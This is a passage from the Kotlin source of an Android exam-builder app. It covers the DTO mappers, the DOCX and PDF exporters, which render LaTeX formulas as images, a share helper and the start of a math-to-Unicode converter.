    @SerialName("updated_at") val updatedAt: String? = null,
    val theme: ThemeDto? = null,
    val exams: List<SavedExamDto> = emptyList()
)

// ---------- DTO -> domain ----------

fun SavedExamDto.toExam(): Exam = Exam(
    id = examId,
    title = title,
    subject = subject,
    durationMinutes = durationMinutes,
    schoolHeader = schoolHeader,
    blocks = blocks.map { it.toBlock() },
    templateBinding = templateBinding
)

private fun BlockDto.toBlock(): QuestionBlock = QuestionBlock(
    blockType = runCatching { BlockType.valueOf(blockType) }.getOrDefault(BlockType.MULTIPLE_CHOICE),
    blockTitle = blockTitle ?: if (blockType == "ESSAY") "Phần Tự luận" else "Phần Trắc nghiệm",
    questions = questions.map { it.toQuestion() }
)

private fun QuestionDto.toQuestion(): Question = Question(
    questionType = runCatching { QuestionType.valueOf(questionType) }.getOrDefault(QuestionType.ESSAY),
    // TASK E: de cu (dong bo tu Gist / nap tu file local) da bi ban cu lam
    // phang "√80", "1/2" -> quy lai ve $...$ LaTeX ngay khi nap. Idempotent
    // nen chay tren de moi cung vo hai; lan luu ke tiep ghi de ban nang cap.
    content = MathPromote.promote(content),
    // Web gui difficulty_level = null cho cau tu luan; domain model khong nhan
    // null nen mac dinh ve NB.
    difficultyLevel = difficultyLevel
        ?.let { runCatching { DifficultyLevel.valueOf(it) }.getOrNull() }
        ?: DifficultyLevel.NB,
    correctAnswer = correctAnswer?.let { MathPromote.promote(it) },
    explanation = explanation?.let { MathPromote.promote(it) },
    options = options.map {
        QuestionOption(optionKey = it.optionKey, optionText = MathPromote.promote(it.optionText), isCorrect = it.isCorrect)
    },
    draftLinesCount = draftLinesCount,
    templateSlotId = templateSlotId,
    points = points
)

// ---------- domain -> DTO ----------

fun Exam.toSavedExamDto(examId: String, createdAt: String?, nowIso: String): SavedExamDto = SavedExamDto(
    examId = examId,
    title = title,
    subject = subject,
    durationMinutes = durationMinutes,
    schoolHeader = schoolHeader,
    blocks = blocks.map { it.toDto() },
    createdAt = createdAt ?: nowIso,
    updatedAt = nowIso,
    deletedAt = null,
    templateBinding = templateBinding
)

private fun QuestionBlock.toDto(): BlockDto = BlockDto(
    blockType = blockType.name,
    blockTitle = blockTitle,
    questions = questions.map { it.toDto() }
)

private fun Question.toDto(): QuestionDto = QuestionDto(
    questionType = questionType.name,
    content = content,
    difficultyLevel = difficultyLevel.name,
    correctAnswer = correctAnswer,
    explanation = explanation,
    options = options.map { OptionDto(optionKey = it.optionKey, optionText = it.optionText, isCorrect = it.isCorrect) },
    draftLinesCount = draftLinesCount,
    templateSlotId = templateSlotId,
    points = points
)

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/export/DocxExporter.kt

```kotlin
package com.exambuilder.android.export

import android.content.Context
import android.graphics.Bitmap
import android.net.Uri
import androidx.core.content.FileProvider
import com.exambuilder.android.math.LatexImage
import com.exambuilder.android.math.MathConvert
import com.exambuilder.android.math.MathNode
import com.exambuilder.android.math.parseMathNodes
import com.exambuilder.android.model.Exam
import com.exambuilder.android.model.Question
import com.exambuilder.android.model.QuestionType
import com.exambuilder.android.model.TemplatePaper
import com.exambuilder.android.model.TemplateSlot
import com.exambuilder.android.model.templateLayout
import java.io.BufferedOutputStream
import java.io.ByteArrayOutputStream
import java.io.File
import java.io.FileOutputStream
import java.util.zip.ZipEntry
import java.util.zip.ZipOutputStream

/**
 * Writes an [Exam] to a real Word `.docx` by emitting the OOXML package by
 * hand (no Apache POI). Formulas (`$…$`, `\begin{cases}`, …) are rendered
 * with JLaTeXMath and embedded as inline PNG images; the rest is real text.
 * `^{…}` / `_{…}` outside `$` still become genuine `<w:vertAlign>` runs.
 */
object DocxExporter {

    private const val EMU_PER_PX = 9525          // 96 dpi
    private const val FORMULA_TEXT_PX = 15f       // ≈ 11 pt body text
    private const val FORMULA_SCALE = 3f          // rasterise at 3× then display down

    private const val GREEN = "15803D"
    private const val AMBER = "92400E"

    fun export(context: Context, exam: Exam, studentMode: Boolean = false): Uri {
        val b = DocBuilder()
        val layout = exam.templateLayout()
        buildBody(b, exam, studentMode)

        val out = File(context.getExternalFilesDir("exports"), exam.exportFileStem() + ".docx")
        out.parentFile?.mkdirs()
        ZipOutputStream(BufferedOutputStream(FileOutputStream(out))).use { zip ->
            zip.entry("[Content_Types].xml", contentTypes())
            zip.entry("_rels/.rels", PACKAGE_RELS)
            zip.entry("word/document.xml", document(b.body.toString(), layout?.paper))
            if (b.images.isNotEmpty()) {
                zip.entry("word/_rels/document.xml.rels", documentRels(b.images.size))
                b.images.forEachIndexed { i, png ->
                    zip.putNextEntry(ZipEntry("word/media/image${i + 1}.png"))
                    zip.write(png)
                    zip.closeEntry()
                }
            }
        }
        return FileProvider.getUriForFile(context, "${context.packageName}.fileprovider", out)
    }

    // ---- document body ----

    private fun buildBody(b: DocBuilder, exam: Exam, studentMode: Boolean) {
        val layout = exam.templateLayout()
        if (exam.schoolHeader.isNotBlank()) b.body.append(para(textRun(exam.schoolHeader), align = "center"))
        b.body.append(para(textRun(exam.title.ifBlank { "Đề kiểm tra" }, bold = true), align = "center", sizeHalfPt = 32))
        val meta = buildList {
            if (exam.subject.isNotBlank()) add("Môn: ${exam.subject}")
            exam.durationMinutes?.let { add("Thời gian: $it phút") }
            add("${exam.numberedQuestions().size} câu")
        }
        if (meta.isNotEmpty()) b.body.append(para(textRun(meta.joinToString("    ")), align = "center", sizeHalfPt = 22))
        b.body.append(EMPTY_PARA)

        var counter = 0
        exam.blocks.forEachIndexed { blockIndex, block ->
            b.body.append(para(textRun(block.blockTitle, bold = true), sizeHalfPt = 26))
            if (layout?.sections?.size == exam.blocks.size) {
                layout.sections[blockIndex].stimulus?.let { b.body.append(para(textRun(it))) }
            }
            block.questions.forEach { q ->
                counter++
                b.body.append(para(textRun("Câu $counter. ", bold = true) + mathRuns(b, q.content)))
                layout?.slotFor(q, counter - 1)?.points?.takeIf { it.isNotBlank() }?.let {
                    b.body.append(para(textRun("    ($it điểm)"), sizeHalfPt = 19))
                }
                appendAnswerArea(b, q, studentMode, layout?.slotFor(q, counter - 1))
                if (!studentMode && !q.explanation.isNullOrBlank()) {
                    splitSentences(q.explanation).forEachIndexed { i, sentence ->
                        b.body.append(
                            para(
                                textRun(if (i == 0) "Lời giải: " else "    ", italic = true, color = AMBER) +
                                    mathRuns(b, sentence, italic = true, color = AMBER),
                                indent = 360
                            )
                        )
                    }
                }
                b.body.append(EMPTY_PARA)
            }
        }

        if (!studentMode) {
            val keyed = exam.numberedQuestions().filter { (_, q) -> !answerKey(q).isNullOrBlank() }
            if (keyed.isNotEmpty()) {
                b.body.append(para(textRun("BẢNG ĐÁP ÁN", bold = true), sizeHalfPt = 26))
                keyed.chunked(8).forEach { row ->
                    b.body.append(para(textRun(row.joinToString("    ") { (n, q) -> "$n. ${answerKey(q)}" })))
                }
            }
        }
    }

    private fun appendAnswerArea(b: DocBuilder, q: Question, studentMode: Boolean, slot: TemplateSlot?) {
        when (q.questionType) {
            QuestionType.MCQ -> q.options.forEach { opt ->
                val correct = !studentMode && opt.isCorrect
                val mark = if (correct) textRun("   ✓", bold = true, color = GREEN) else emptyList<Run>()
                b.body.append(
                    para(textRun("    ${opt.optionKey}. ", bold = correct) + mathRuns(b, opt.optionText, bold = correct) + mark)
                )
            }
            QuestionType.TRUE_FALSE -> {
                b.body.append(para(textRun("    ☐ Đúng        ☐ Sai")))
                if (!studentMode) b.body.append(para(textRun("    Đáp án: ${trueFalseLabel(q.correctAnswer)}", italic = true, color = GREEN)))
            }
            QuestionType.FILL_BLANK -> {
                b.body.append(para(textRun("    Trả lời: ......................................................")))
                if (!studentMode && !q.correctAnswer.isNullOrBlank()) {
                    b.body.append(para(textRun("    Đáp án: ", italic = true, color = GREEN) + mathRuns(b, q.correctAnswer, italic = true, color = GREEN)))
                }
            }
            QuestionType.ESSAY -> repeat((slot?.answerLines ?: q.draftLinesCount).coerceIn(0, 30)) {
                b.body.append(if (slot?.answerKind == "blank") EMPTY_PARA else para(textRun("    ................................................................................")))
            }
        }
    }

    private fun answerKey(q: Question): String? = when (q.questionType) {
        QuestionType.MCQ -> q.options.firstOrNull { it.isCorrect }?.optionKey ?: q.correctAnswer
        QuestionType.TRUE_FALSE -> trueFalseLabel(q.correctAnswer)
        QuestionType.FILL_BLANK -> q.correctAnswer?.let { MathConvert.toPlainText(it) }
        QuestionType.ESSAY -> null
    }

    private fun splitSentences(text: String): List<String> =
        text.split(Regex("(?<=\\.)\\s+(?=\\S)")).map { it.trim() }.filter { it.isNotEmpty() }

    // ---- runs: text (with super/subscript) + inline formula images ----

    private class DocBuilder {
        val body = StringBuilder()
        val images = ArrayList<ByteArray>()
        fun addImage(png: ByteArray): Int {
            images.add(png)
            return images.size // 1-based -> rIdImg{n} / image{n}.png
        }
    }

    private sealed interface Run
    private data class TextR(val text: String, val bold: Boolean, val italic: Boolean, val color: String?, val script: MathConvert.Script) : Run
    private data class ImageR(val index: Int, val widthPx: Int, val heightPx: Int) : Run

    private fun textRun(text: String, bold: Boolean = false, italic: Boolean = false, color: String? = null): List<Run> =
        listOf(TextR(text, bold, italic, color, MathConvert.Script.NONE))

    /** Parse math text into runs: prose -> vertAlign text runs, `$…$` -> embedded PNG. */
    private fun mathRuns(b: DocBuilder, text: String?, bold: Boolean = false, italic: Boolean = false, color: String? = null): List<Run> {
        val colorArgb = 0xFF000000.toInt() or (color?.toInt(16) ?: 0)
        return parseMathNodes(text).flatMap { node ->
            when (node) {
                is MathNode.Text -> MathConvert.segments(node.text).map { TextR(it.text, bold, italic, color, it.script) }
                is MathNode.Formula -> {
                    val bmp = LatexImage.bitmap(node.latex, FORMULA_TEXT_PX * FORMULA_SCALE, colorArgb)
                    if (bmp == null) {
                        MathConvert.segments("$" + node.latex + "$").map { TextR(it.text, bold, italic, color, it.script) }
                    } else {
                        val png = bmp.toPng()
                        val idx = b.addImage(png)
                        listOf(ImageR(idx, (bmp.width / FORMULA_SCALE).toInt().coerceAtLeast(1), (bmp.height / FORMULA_SCALE).toInt().coerceAtLeast(1)))
                    }
                }
            }
        }
    }

    private fun Bitmap.toPng(): ByteArray = ByteArrayOutputStream().use { out ->
        compress(Bitmap.CompressFormat.PNG, 100, out)
        out.toByteArray()
    }

    // ---- OOXML rendering ----

    private fun para(runs: List<Run>, align: String? = null, sizeHalfPt: Int? = null, indent: Int? = null): String {
        val pPr = StringBuilder("<w:pPr>")
        if (align != null) pPr.append("""<w:jc w:val="$align"/>""")
        if (indent != null) pPr.append("""<w:ind w:left="$indent"/>""")
        pPr.append("</w:pPr>")
        val body = runs.joinToString("") { renderRun(it, sizeHalfPt) }
        return "<w:p>$pPr$body</w:p>\n"
    }

    private fun renderRun(run: Run, sizeHalfPt: Int?): String = when (run) {
        is ImageR -> {
            val cx = run.widthPx * EMU_PER_PX
            val cy = run.heightPx * EMU_PER_PX
            val rId = "rIdImg${run.index}"
            val id = 1000 + run.index
            """<w:r><w:drawing><wp:inline distT="0" distB="0" distL="0" distR="0">""" +
                """<wp:extent cx="$cx" cy="$cy"/><wp:docPr id="$id" name="Formula $id"/>""" +
                """<a:graphic xmlns:a="http://schemas.openxmlformats.org/drawingml/2006/main">""" +
                """<a:graphicData uri="http://schemas.openxmlformats.org/drawingml/2006/picture">""" +
                """<pic:pic xmlns:pic="http://schemas.openxmlformats.org/drawingml/2006/picture">""" +
                """<pic:nvPicPr><pic:cNvPr id="$id" name="Formula $id"/><pic:cNvPicPr/></pic:nvPicPr>""" +
                """<pic:blipFill><a:blip r:embed="$rId"/><a:stretch><a:fillRect/></a:stretch></pic:blipFill>""" +
                """<pic:spPr><a:xfrm><a:off x="0" y="0"/><a:ext cx="$cx" cy="$cy"/></a:xfrm>""" +
                """<a:prstGeom prst="rect"><a:avLst/></a:prstGeom></pic:spPr></pic:pic>""" +
                """</a:graphicData></a:graphic></wp:inline></w:drawing></w:r>"""
        }
        is TextR -> {
            val rPr = StringBuilder("<w:rPr>")
            if (run.bold) rPr.append("<w:b/>")
            if (run.italic) rPr.append("<w:i/>")
            if (run.color != null) rPr.append("""<w:color w:val="${run.color}"/>""")
            when (run.script) {
                MathConvert.Script.SUPER -> rPr.append("""<w:vertAlign w:val="superscript"/>""")
                MathConvert.Script.SUB -> rPr.append("""<w:vertAlign w:val="subscript"/>""")
                MathConvert.Script.NONE -> {}
            }
            if (sizeHalfPt != null) rPr.append("""<w:sz w:val="$sizeHalfPt"/><w:szCs w:val="$sizeHalfPt"/>""")
            rPr.append("</w:rPr>")
            """<w:r>$rPr<w:t xml:space="preserve">${xml(run.text)}</w:t></w:r>"""
        }
    }

    private const val EMPTY_PARA = "<w:p/>\n"

    private fun document(body: String, paper: TemplatePaper?): String {
        val width = (paper?.widthPt ?: 595) * 20
        val height = (paper?.heightPt ?: 842) * 20
        val top = ((paper?.topPt ?: 56.7f) * 20).toInt()
        val bottom = ((paper?.bottomPt ?: 56.7f) * 20).toInt()
        val left = ((paper?.leftPt ?: 56.7f) * 20).toInt()
        val right = ((paper?.rightPt ?: 56.7f) * 20).toInt()
        return """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:document xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:wp="http://schemas.openxmlformats.org/drawingml/2006/wordprocessingDrawing" xmlns:a="http://schemas.openxmlformats.org/drawingml/2006/main" xmlns:pic="http://schemas.openxmlformats.org/drawingml/2006/picture">
<w:body>
$body<w:sectPr><w:pgSz w:w="$width" w:h="$height"/><w:pgMar w:top="$top" w:right="$right" w:bottom="$bottom" w:left="$left" w:header="708" w:footer="708" w:gutter="0"/></w:sectPr>
</w:body>
</w:document>"""
    }

    private fun contentTypes(): String = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types">
<Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/>
<Default Extension="xml" ContentType="application/xml"/>
<Default Extension="png" ContentType="image/png"/>
<Override PartName="/word/document.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.document.main+xml"/>
</Types>"""

    private const val PACKAGE_RELS = """<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/officeDocument" Target="word/document.xml"/>
</Relationships>"""

    private fun documentRels(imageCount: Int): String = buildString {
        append("""<?xml version="1.0" encoding="UTF-8" standalone="yes"?>""")
        append("""<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">""")
        for (i in 1..imageCount) {
            append("""<Relationship Id="rIdImg$i" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="media/image$i.png"/>""")
        }
        append("</Relationships>")
    }

    private fun xml(s: String): String = buildString {
        for (c in s) when (c) {
            '&' -> append("&amp;")
            '<' -> append("&lt;")
            '>' -> append("&gt;")
            '"' -> append("&quot;")
            else -> append(c)
        }
    }

    private fun ZipOutputStream.entry(name: String, content: String) {
        putNextEntry(ZipEntry(name))
        write(content.toByteArray(Charsets.UTF_8))
        closeEntry()
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/export/Exports.kt

```kotlin
package com.exambuilder.android.export

import android.content.Context
import android.content.Intent
import android.net.Uri
import com.exambuilder.android.model.Exam
import com.exambuilder.android.model.QuestionType

/** MIME type for a Word .docx file. */
const val DOCX_MIME = "application/vnd.openxmlformats-officedocument.wordprocessingml.document"
const val PDF_MIME = "application/pdf"

/** File-system-safe stem for an exported document, derived from the exam title. */
fun Exam.exportFileStem(): String =
    title.ifBlank { "de-kiem-tra" }
        .trim()
        .replace(Regex("""[\\/:*?"<>|]+"""), "")
        .replace(Regex("""\s+"""), "_")
        .take(80)
        .ifBlank { "de-kiem-tra" }

/** Continuous 1..N numbering across every block, matching the web preview. */
fun Exam.numberedQuestions(): List<Pair<Int, com.exambuilder.android.model.Question>> {
    var n = 0
    return blocks.flatMap { block -> block.questions.map { q -> ++n to q } }
}

/** True/False and Fill-blank answers are stored with the web's ASCII keys. */
fun trueFalseLabel(answer: String?): String = if (answer == "Sai") "Sai" else "Đúng"

fun QuestionType.vietnameseLabel(): String = when (this) {
    QuestionType.MCQ -> "Trắc nghiệm"
    QuestionType.TRUE_FALSE -> "Đúng / Sai"
    QuestionType.FILL_BLANK -> "Điền khuyết"
    QuestionType.ESSAY -> "Tự luận"
}

/** Hand [uri] to the system share sheet (send / open / save to Drive, etc.). */
fun shareExportedFile(context: Context, uri: Uri, mime: String) {
    val send = Intent(Intent.ACTION_SEND).apply {
        type = mime
        putExtra(Intent.EXTRA_STREAM, uri)
        addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION)
    }
    context.startActivity(Intent.createChooser(send, "Chia sẻ / Lưu tệp"))
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/export/PdfExporter.kt

```kotlin
package com.exambuilder.android.export

import android.content.Context
import android.graphics.Color
import android.graphics.Paint
import android.graphics.RectF
import android.graphics.Typeface
import android.graphics.pdf.PdfDocument
import android.net.Uri
import androidx.core.content.FileProvider
import com.exambuilder.android.math.LatexImage
import com.exambuilder.android.math.MathConvert
import com.exambuilder.android.math.MathNode
import com.exambuilder.android.math.parseMathNodes
import com.exambuilder.android.model.Exam
import com.exambuilder.android.model.Question
import com.exambuilder.android.model.QuestionType
import com.exambuilder.android.model.templateLayout
import java.io.File
import java.io.FileOutputStream

// A4 at 72 pt/inch.
private const val PAGE_W = 595
private const val PAGE_H = 842
private const val MARGIN = 54f
private const val LINE = 17f

// JLaTeXMath is rasterised at this multiple of the target text size for a
// crisper result once the PDF is zoomed / printed.
private const val FORMULA_SCALE = 2.5f

private fun paint(sizePt: Float, bold: Boolean = false, color: Int = Color.BLACK) = Paint().apply {
    isAntiAlias = true
    textSize = sizePt
    this.color = color
    if (bold) typeface = Typeface.create(Typeface.DEFAULT, Typeface.BOLD)
}

private val TITLE = paint(17f, bold = true)
private val SUBTITLE = paint(11f, color = 0xFF475569.toInt())
private val HEADING = paint(13f, bold = true, color = 0xFF1E293B.toInt())
private val BODY = paint(11.5f)
private val BODY_BOLD = paint(11.5f, bold = true)
private val ANSWER = paint(11f, color = 0xFF15803D.toInt())
private val EXPLAIN = paint(10.5f, color = 0xFF92400E.toInt())
private val MUTED = paint(9.5f, color = 0xFF94A3B8.toInt())

/**
 * Renders an [Exam] to a clean multi-page A4 PDF using the platform
 * [PdfDocument] API (no third-party PDF dependency). Formulas (`$…$`,
 * `\begin{cases}`, …) are rendered with JLaTeXMath and drawn as images; the
 * rest of the text flows around them.
 *
 *  - [studentMode] `true`  -> exam paper only (no answers, no explanations).
 *  - [studentMode] `false` -> teacher copy: inline answers, explanations and
 *    a compact answer key at the end.
 */
object PdfExporter {

    fun export(context: Context, exam: Exam, studentMode: Boolean = false): Uri {
        val doc = PdfDocument()
        val layout = exam.templateLayout()
        val w = PageWriter(doc, layout?.paper)

        if (exam.schoolHeader.isNotBlank()) w.centered(exam.schoolHeader, SUBTITLE)
        w.centered(exam.title.ifBlank { "Đề kiểm tra" }, TITLE)
        val meta = buildList {
            if (exam.subject.isNotBlank()) add("Môn: ${exam.subject}")
            exam.durationMinutes?.let { add("Thời gian: $it phút") }
            add("${exam.numberedQuestions().size} câu")
        }
        if (meta.isNotEmpty()) w.centered(meta.joinToString("    "), SUBTITLE)
        w.gap(0.6f)
        w.rule()
        w.gap(0.4f)

        var counter = 0
        exam.blocks.forEachIndexed { blockIndex, block ->
            w.ensure(LINE * 3)
            w.line(block.blockTitle, HEADING)
            if (layout?.sections?.size == exam.blocks.size) {
                layout.sections[blockIndex].stimulus?.let { w.line(it, BODY) }
            }
            w.gap(0.2f)

            block.questions.forEach { q ->
                counter++
                w.ensure(LINE * 3)
                w.flow("Câu $counter. ", BODY_BOLD, q.content, BODY)
                layout?.slotFor(q, counter - 1)?.points?.takeIf { it.isNotBlank() }?.let { w.line("     ($it điểm)", MUTED) }

                when (q.questionType) {
                    QuestionType.MCQ -> q.options.forEach { opt ->
                        val correct = !studentMode && opt.isCorrect
                        w.flow(
                            "     ${opt.optionKey}. ",
                            if (correct) BODY_BOLD else BODY,
                            opt.optionText + if (correct) "   ✓" else "",
                            if (correct) BODY_BOLD else BODY,
                        )
                    }
                    QuestionType.TRUE_FALSE -> {
                        w.line("     ☐ Đúng        ☐ Sai", BODY)
                        if (!studentMode) w.line("     Đáp án: ${trueFalseLabel(q.correctAnswer)}", ANSWER)
                    }
                    QuestionType.FILL_BLANK -> {
                        w.line("     Trả lời: ..................................................", BODY)
                        if (!studentMode && !q.correctAnswer.isNullOrBlank()) {
                            w.flow("     Đáp án: ", ANSWER, q.correctAnswer, ANSWER)
                        }
                    }
                    QuestionType.ESSAY -> {
                        val slot = layout?.slotFor(q, counter - 1)
                        w.answerSpace(slot?.answerKind ?: "lined", slot?.answerLines ?: q.draftLinesCount.coerceIn(0, 30))
                    }
                }

                if (!studentMode && !q.explanation.isNullOrBlank()) {
                    splitSentences(q.explanation).forEachIndexed { i, sentence ->
                        w.flow(if (i == 0) "     Lời giải: " else "        ", EXPLAIN, sentence, EXPLAIN)
                    }
                }
                w.gap(0.4f)
            }
        }

        if (!studentMode) {
            val keyed = exam.numberedQuestions().filter { (_, q) -> !answerText(q).isNullOrBlank() }
            if (keyed.isNotEmpty()) {
                w.ensure(LINE * 4)
                w.gap(0.4f)
                w.rule()
                w.line("BẢNG ĐÁP ÁN", HEADING)
                keyed.chunked(8).forEach { row ->
                    w.line(row.joinToString("    ") { (n, q) -> "$n. ${answerText(q)}" }, BODY)
                }
            }
        }

        return w.finish(context, exam.exportFileStem() + ".pdf")
    }

    private fun answerText(q: Question): String? = when (q.questionType) {
        QuestionType.MCQ -> q.options.firstOrNull { it.isCorrect }?.optionKey ?: q.correctAnswer
        QuestionType.TRUE_FALSE -> trueFalseLabel(q.correctAnswer)
        QuestionType.FILL_BLANK -> q.correctAnswer?.let { MathConvert.toPlainText(it) }
        QuestionType.ESSAY -> null
    }

    /** One sentence (". " terminated) per line — matches the on-screen preview. */
    private fun splitSentences(text: String): List<String> =
        text.split(Regex("(?<=\\.)\\s+(?=\\S)")).map { it.trim() }.filter { it.isNotEmpty() }
}

/**
 * Cursor over a growing [PdfDocument]; wraps text to the content width and
 * starts a new page when the current one is full.
 */
private class PageWriter(private val doc: PdfDocument, paper: com.exambuilder.android.model.TemplatePaper?) {
    private val width = paper?.widthPt ?: PAGE_W
    private val height = paper?.heightPt ?: PAGE_H
    private val top = paper?.topPt ?: MARGIN
    private val bottom = paper?.bottomPt ?: MARGIN
    private val left = paper?.leftPt ?: MARGIN
    private val right = width - (paper?.rightPt ?: MARGIN)
    private val contentW = right - left
    private var page = newPage()
    private var canvas = page.canvas
    private var y = top
    private var pageNo = 1

    private fun newPage(): PdfDocument.Page =
        doc.startPage(PdfDocument.PageInfo.Builder(width, height, doc.pages.size + 1).create())

    fun ensure(extra: Float) {
        if (y + extra <= height - bottom) return
        stampFooter()
        doc.finishPage(page)
        page = newPage()
        canvas = page.canvas
        y = top
        pageNo++
    }

    private fun stampFooter() {
        canvas.drawText("Trang $pageNo", width / 2f - 18f, height - bottom + 12f, MUTED)
    }

    fun gap(lines: Float) {
        y += LINE * lines
    }

    fun rule() {
        ensure(LINE)
        canvas.drawLine(left, y - LINE * 0.4f, right, y - LINE * 0.4f, MUTED)
        y += LINE * 0.4f
    }

    fun centered(text: String, p: Paint) {
        wrap(text, p, contentW).forEach {
            ensure(LINE)
            canvas.drawText(it, (width - p.measureText(it)) / 2f, y, p)
            y += LINE
        }
    }

    fun line(text: String, p: Paint) {
        wrap(text, p, contentW).forEach {
            ensure(LINE)
            canvas.drawText(it, left, y, p)
            y += LINE
        }
    }

    fun answerSpace(kind: String, lines: Int) {
        repeat(lines.coerceIn(0, 30)) {
            ensure(LINE)
            when (kind) {
                "blank", "none" -> Unit
                "drawing" -> {
                    canvas.drawLine(left, y - LINE * 0.7f, right, y - LINE * 0.7f, MUTED)
                    canvas.drawLine(left, y - LINE * 0.7f, left, y + LINE * 0.3f, MUTED)
                    canvas.drawLine(right, y - LINE * 0.7f, right, y + LINE * 0.3f, MUTED)
                }
                "squared", "table" -> {
                    canvas.drawLine(left, y + LINE * 0.3f, right, y + LINE * 0.3f, MUTED)
                    var x = left
                    while (x <= right) { canvas.drawLine(x, y - LINE * 0.7f, x, y + LINE * 0.3f, MUTED); x += LINE }
                }
                else -> canvas.drawLine(left, y + LINE * 0.3f, right, y + LINE * 0.3f, MUTED)
            }
            y += LINE
        }
    }

    /**
     * Draw [prefix] (in [prefixPaint]) then [text] (in [bodyPaint]) — parsing
     * `$…$` / `\begin{…}` into JLaTeXMath images and flowing the plain runs
     * as words, wrapping to the content width. Continuation lines indent to
     * the prefix width.
     */
    fun flow(prefix: String, prefixPaint: Paint, text: String?, bodyPaint: Paint) {
        ensure(LINE)
        val indent = prefixPaint.measureText(prefix)
        canvas.drawText(prefix, left, y, prefixPaint)
        var x = left + indent
        var lineExtra = 0f

        fun newline() {
            y += LINE + lineExtra
            lineExtra = 0f
            ensure(LINE)
            x = left + indent
        }

        fun drawWords(s: String) {
            for (word in tokenize(s)) {
                val wWidth = bodyPaint.measureText(word)
                if (x + wWidth > right && x > left + indent) newline()
                canvas.drawText(word, x, y, bodyPaint)
                x += wWidth
            }
        }

        parseMathNodes(text).forEach { node ->
            when (node) {
                is MathNode.Text -> drawWords(MathConvert.toPlainText(node.text))
                is MathNode.Formula -> {
                    val bmp = LatexImage.bitmap(node.latex, bodyPaint.textSize * FORMULA_SCALE, bodyPaint.color)
                    if (bmp == null) {
                        drawWords(MathConvert.toPlainText("$" + node.latex + "$"))
                    } else {
                        val tw = bmp.width / FORMULA_SCALE
                        val th = bmp.height / FORMULA_SCALE
                        if (x + tw > right && x > left + indent) newline()
                        val top = y - th * 0.72f
                        canvas.drawBitmap(bmp, null, RectF(x, top, x + tw, top + th), null)
                        x += tw + 2f
                        lineExtra = maxOf(lineExtra, th - LINE)
                    }
                }
            }
        }
        y += LINE + lineExtra
    }

    fun finish(context: Context, fileName: String): Uri {
        stampFooter()
        doc.finishPage(page)
        val out = File(context.getExternalFilesDir("exports"), fileName)
        out.parentFile?.mkdirs()
        FileOutputStream(out).use { doc.writeTo(it) }
        doc.close()
        return FileProvider.getUriForFile(context, "${context.packageName}.fileprovider", out)
    }

    /** Split keeping trailing spaces so word widths add up on a line. */
    private fun tokenize(s: String): List<String> {
        if (s.isEmpty()) return emptyList()
        val out = ArrayList<String>()
        val sb = StringBuilder()
        for (ch in s) {
            sb.append(ch)
            if (ch == ' ') {
                out.add(sb.toString()); sb.setLength(0)
            }
        }
        if (sb.isNotEmpty()) out.add(sb.toString())
        return out
    }

    private fun wrap(text: String, p: Paint, maxWidth: Float): List<String> {
        val out = ArrayList<String>()
        text.split("\n").forEach { paragraph ->
            var current = StringBuilder()
            for (word in paragraph.split(" ")) {
                val candidate = if (current.isEmpty()) word else "$current $word"
                if (p.measureText(candidate) > maxWidth && current.isNotEmpty()) {
                    out.add(current.toString())
                    current = StringBuilder(word)
                } else {
                    current = StringBuilder(candidate)
                }
            }
            out.add(current.toString())
        }
        return out
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/math/LatexImage.kt

```kotlin
package com.exambuilder.android.math

import android.graphics.Bitmap
import android.graphics.Canvas
import ru.noties.jlatexmath.JLatexMathDrawable

/**
 * Non-Compose access to the JLaTeXMath renderer, used by the PDF / DOCX
 * exporters. JLaTeXMath auto-initialises via its bundled `ContentProvider`,
 * so no setup call is needed.
 */
object LatexImage {

    /** @return the rendered formula as a [JLatexMathDrawable], or null on a parse error. */
    fun drawable(latex: String, textSizePx: Float, colorArgb: Int): JLatexMathDrawable? =
        runCatching {
            JLatexMathDrawable.builder(latex)
                .textSize(textSizePx)
                .color(colorArgb)
                .align(JLatexMathDrawable.ALIGN_LEFT)
                .build()
        }.getOrNull()

    /** @return the rendered formula rasterised to an ARGB_8888 [Bitmap], or null on a parse error. */
    fun bitmap(latex: String, textSizePx: Float, colorArgb: Int): Bitmap? {
        val d = drawable(latex, textSizePx, colorArgb) ?: return null
        val w = d.intrinsicWidth.coerceAtLeast(1)
        val h = d.intrinsicHeight.coerceAtLeast(1)
        val bmp = Bitmap.createBitmap(w, h, Bitmap.Config.ARGB_8888)
        d.setBounds(0, 0, w, h)
        d.draw(Canvas(bmp))
        return bmp
    }
}

```

### FILE: Exam builder for adr/app/src/main/java/com/exambuilder/android/math/MathConvert.kt

```kotlin
package com.exambuilder.android.math

/**
 * Native LaTeX / hand-typed-math -> Unicode converter.
 *
 * The web client renders `$...$` spans with KaTeX inside a real browser. On
 * Android we deliberately DO NOT spin up one WebView per question inside a
 * LazyColumn (jank + memory). Instead we flatten LaTeX to Unicode exactly the
 * way the web already does for its Word export (`latexToPlainText` in
 * backend/parser/mathFormat.js) and then lift `^{...}` / `_{...}` into real
 * super/subscript runs (see [segments]) so exponents and indices still read
 * correctly.
 *
 * This is a direct port of backend/parser/mathFormat.js — keep the two in
 * sync. The regex table order matters: longer / more specific patterns and
 * ones that depend on an earlier step's output must come first.
 *
 * Deliberately free of any Android / Compose imports so it is plain-JVM
 * unit-testable (see MathConvertTest).
 */
object MathConvert {

    private val SUPERSCRIPT = mapOf(
        '0' to '⁰', '1' to '¹', '2' to '²', '3' to '³', '4' to '⁴',
        '5' to '⁵', '6' to '⁶', '7' to '⁷', '8' to '⁸', '9' to '⁹'
    )
    private val GREEK = mapOf(
